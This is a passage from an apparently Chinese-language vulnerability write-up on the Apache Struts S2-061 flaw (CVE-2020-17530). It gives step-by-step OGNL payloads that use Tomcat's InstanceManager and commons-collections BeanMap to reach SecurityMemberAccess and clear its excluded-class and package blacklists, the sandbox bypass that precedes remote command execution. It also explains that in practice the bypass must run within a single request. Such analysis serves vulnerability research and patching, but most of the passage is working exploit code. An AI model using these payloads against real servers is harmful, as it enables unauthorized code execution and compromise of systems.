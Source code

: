 这里把两个步骤的Ognl代码同时贴出来

```
   # 注意，自行调试的话，需要分两次执行
   %{#application.map2=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')}

   %{#application.map2.setBean(#application.get('map').get('context'))}
```

使用上面的原理，使用第二步得到的`OgnlContext`获取到内部的`com.opensymphony.xwork2.ognl.SecurityMemberAccess`对象，在设置到新的BeanMap中，用于重置黑名单

[![img](resource/%EF%BC%88CVE-2020-17530%EF%BC%89S2-061/media/t011ca666d244cfde75.png)](https://p0.ssl.qhimg.com/t011ca666d244cfde75.png)

```
# 注意，自行调试的话，需要分两次执行
%{#application.map3=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')}

%{#application.map3.setBean(#application.get('map2').get('memberAccess'))}
```

确认一下之前存放的Map都正确存下来了，不然岂不是白忙活，其实每一步执行完后，都可以查看一次，确认每一步都是操作正确的，这里我就一次过了。

[![img](resource/%EF%BC%88CVE-2020-17530%EF%BC%89S2-061/media/t013ad7a8fe1ab70f12.png)](https://p3.ssl.qhimg.com/t013ad7a8fe1ab70f12.png)

前面的操作都确认没有问题后，就可以调用方法重置黑名单了，主要API为`com.opensymphony.xwork2.ognl.SecurityMemberAccess#setExcludedClasses`和`com.opensymphony.xwork2.ognl.SecurityMemberAccess#setExcludedPackageNames`,如下图

[![img](resource/%EF%BC%88CVE-2020-17530%EF%BC%89S2-061/media/t01c2e6c54f3ae65a16.png)](https://p3.ssl.qhimg.com/t01c2e6c54f3ae65a16.png)

在我们这两个地方打了断点后，我们请求下面或者前面的ognl可以发现，在每次收到请求的时候，都会调用一次这里的黑名单赋值，也就是说，就算是我们在本次请求重置了黑名单，在下次请求的时候，黑名单还是会重置。因此只有前面的ognl可以持久化存储，实际利用的时候，必须要在一个请求中进行命令执行。下文还会有一个存放在`request`中的poc。

初次请求赋值:

[![img](resource/%EF%BC%88CVE-2020-17530%EF%BC%89S2-061/media/t0142df8c70636a114c.png)](https://p1.ssl.qhimg.com/t0142df8c70636a114c.png)

[![img](resource/%EF%BC%88CVE-2020-17530%EF%BC%89S2-061/media/t01379e24755f960042.png)](https://p0.ssl.qhimg.com/t01379e24755f960042.png)

执行下面清空黑名单代码的重新赋值

[![img](resource/%EF%BC%88CVE-2020-17530%EF%BC%89S2-061/media/t01d2429986989dd32b.png)](https://p4.ssl.qhimg.com/t01d2429986989dd32b.png)

[![img](resource/%EF%BC%88CVE-2020-17530%EF%BC%89S2-061/media/t01baaac573fe9b5d3a.png)](https://p1.ssl.qhimg.com/t01baaac573fe9b5d3a.png)

清7空黑名单的ognl代码

```
# 注意，自行调试的话，需要分两次执行
   #application.get('map3').put('excludedPackageNames',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet'))

   #application.get('map3').put('excludedClasses',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet'))
```
